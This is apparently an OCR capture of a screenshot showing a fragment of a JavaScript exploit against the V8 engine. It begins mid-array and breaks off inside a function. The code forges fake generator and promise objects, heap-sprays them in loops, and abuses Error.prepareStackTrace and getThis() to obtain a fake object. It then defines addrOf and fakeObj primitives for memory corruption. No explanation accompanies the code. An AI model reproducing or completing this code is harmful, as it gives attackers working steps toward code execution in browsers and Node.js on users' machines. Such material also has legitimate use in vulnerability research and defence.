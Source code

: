 ```javascript=
                
                pair_32_to_f(generatorMap, 0x41414141), // fake generator
                pair_32_to_f(0x41414141, fooAddr), // jsfunc
                pair_32_to_f(0x41414141, fakeObjArrEle), // receiver
                pair_32_to_f(0x41414141, 0x41414141),
                pair_32_to_f(0x0, 0x41414141),          // continuation  
]

// scavenge_gc()
// mark_sweep_gc()

let fakeJSPromise = [pair_32_to_f(promiseMap << 8, emptyFixedArray << 8),
                    pair_32_to_f(emptyFixedArray << 8, (fakeObjArrEle + 0x10) << 8),
                    pair_32_to_f(0x0, 0x41414141), // status
]

var xx = new Array(fakeJSPromise[0], fakeJSPromise[1], fakeJSPromise[2]);
for(let i = 0; i < 0x10000; i++)
{
    xx.push(fakeJSPromise[0]);
    xx.push(fakeJSPromise[1]);
    xx.push(fakeJSPromise[2]);
    xx.push(fakeJSPromise[0]);
    xx.push(fakeJSPromise[1]);
    xx.push(fakeJSPromise[2]);
}

var x = new Array(fakeJSPromise[0], fakeJSPromise[1], fakeJSPromise[2]);

for(let i = 0; i < 0x10000; i++)
    {
        x.push(fakeJSPromise[0]);
        x.push(fakeJSPromise[1]);
        x.push(fakeJSPromise[2]);
        x.push(fakeJSPromise[0]);
        x.push(fakeJSPromise[1]);
        x.push(fakeJSPromise[2]);
    }

var fakeObj = []
Error.prepareStackTrace = function(error, structuredStackTrace) {
    if(structuredStackTrace.length > 2)
    {
        console.log("There's " + structuredStackTrace.length + " frames.");
        console.log(error.stack);
        let len = structuredStackTrace.length;
        fakeObj = structuredStackTrace[len - 1].getThis();
        
        function addrOf(obj)
        {
            fakeObjArr[0] = pair_32_to_f(packElementMap, emptyFixedArray)
            fakeObj[0] = obj
            fakeObjArr[0] = pair_32_to_f(packDoubleArrMap, emptyFixedArray)
            let ret = ftoi(fakeObj[0]) & 0xffffffffn
            fakeObjArr[0] = pair_32_to_f(packDoubleArrMap, emptyFixedArray)
            fakeObjArr[1] = pair_32_to_f(fakeObjArrEle + 0x20, 0x222)// elements and length
            return ret;
        }

        function fakeObj_(addr)
        {
            fakeObjArr[0] = pair_32_to_f(packDoubleArrMap, emptyFixedArray)
            fakeObj[0] = itof(addr)
```